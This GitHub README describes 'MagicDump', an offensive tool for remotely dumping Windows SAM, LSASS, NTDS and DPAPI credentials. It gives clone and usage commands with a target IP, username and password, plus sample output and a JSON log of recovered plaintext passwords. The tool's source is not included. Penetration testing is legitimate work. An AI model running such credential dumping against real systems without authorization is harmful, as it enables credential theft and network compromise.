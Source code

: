 # MagicDump

MagicDump is an automated tool designed to remotely dump credentials from Windows machines, including SAM, LSASS, NTDS, and DPAPI. It simplifies the process of extracting sensitive information, providing organized output and support for multiple authentication methods.

<br>

---

<br>

## Features
- **Credential Dumping**: Automates dumping of SAM, LSASS, NTDS, and DPAPI credentials.
- **Flexible Authentication**:
  - Username and Password Authentication.
  - (Upcoming) Pass-the-Hash and Pass-the-Ticket.
- **Organized Output**:
  - Logs actions in JSON format.
  - Saves dumps and logs to `~/.magicdump/`.
- **Real-Time Feedback**: Displays actions on the screen as they happen.

<br>

---

<br>

## Requirements
- Bash Shell
- Tools for credential dumping (e.g., `impacket`, `netexec`, etc.)

<br>

---

<br>

## Installation
Clone the repository:
```bash
git clone https://github.com/Mag1cByt3s/MagicDump.git
cd MagicDump
```

<br>

Make the script executable:
```bash
chmod +x MagicDump
```

<br>

---

<br>

## Usage
Run the script with the required options:
```bash
./MagicDump -t <target_ip> -u <username> -p <password>
```

<br>

### Arguments
- `-t`: specify the target IP address
- `-u`: specify the username to authenticate as
- `-p`: specify the password

<br>

For help:
```bash
./MagicDump -h
```

<br>

---

<br>

## Example
```bash
./MagicDump -t 192.168.1.100 -u Administrator -p SuperSecretPass123
```

<br>

Output:
```bash
[INFO] Starting MagicDump against target 192.168.1.100
[INFO] Authenticating as user 'Administrator'...
[INFO] Connecting to target 192.168.1.100 via SMB...
[LOG] Operation: SAM, Status: success
[INFO] SAM dump saved to /home/pascal/.magicdump/dumps/SAM_dumped_192.168.1.100.txt
[LOG] Operation: LSASS, Status: success
[INFO] LSASS dumped and decrypted successfully
[CREDENTIALS FOUND]:
Administrator: SuperSecretPass123
User1: Passw0rd!
[LOG] Operation: NTDS, Status: failed
[WARNING] Failed to dump NTDS: Access denied
[INFO] Dumping complete. Logs saved to /home/pascal/.magicdump/logs/report_192.168.1.100_20250104135344.json.
```

<br>

---

## Logfile example

```json
{
  "target_host": "192.168.1.100",
  "operation_time": "2025-01-04T13:53:44Z",
  "credentials_dumped": {
    "SAM": {
      "status": "success",
      "file_path": "/home/pascal/.magicdump/dumps/SAM_dump_192.168.1.100.txt"
    },
    "LSASS": {
      "status": "success",
      "file_path": "/home/pascal/.magicdump/dumps/LSASS_dump_192.168.1.100.dmp",
      "decrypted_credentials": [
        {
          "username": "Administrator",
          "password": "SuperSecretPass123"
        },
        {
          "username": "User1",
          "password": "Passw0rd!"
        }
      ]
    },
    "NTDS": {
      "status": "failed",
      "error": "Access denied"
    }
  },
  "warnings": [
    "Failed to dump NTDS: Access denied"
  ],
  "logs": [
    "Starting MagicDump against target 192.168.1.100",
    "Authenticating as user 'Administrator'...",
    "Connecting to target 192.168.1.100 via SMB...",
    "Operation: SAM, Status: success",
    "SAM dump saved to /home/pascal/.magicdump/dumps/SAM_dump_192.168.1.100.txt",
    "Operation: LSASS, Status: success",
    "LSASS dumped and decrypted successfully",
    "Operation: NTDS, Status: failed",
    "Failed to dump NTDS: Access denied",
    "Dumping complete. Logs saved to /home/pascal/.magicdump/logs/report_192.168.1.100_20250104135344.json."
  ]
}
```

<br>

---

<br>

## Roadmap
- Add support for Pass-the-Hash and Pass-the-Ticket authentication.
- Integrate more advanced credential dumping techniques.
- Encrypt logs and dumps for security.

<br>

---

<br>

## License
[GPLv3 License](LICENSE)

<br>

---

<br>

## Disclaimer
**MagicDump is intended for authorized use only.** Ensure you have permission before using this tool on any system.
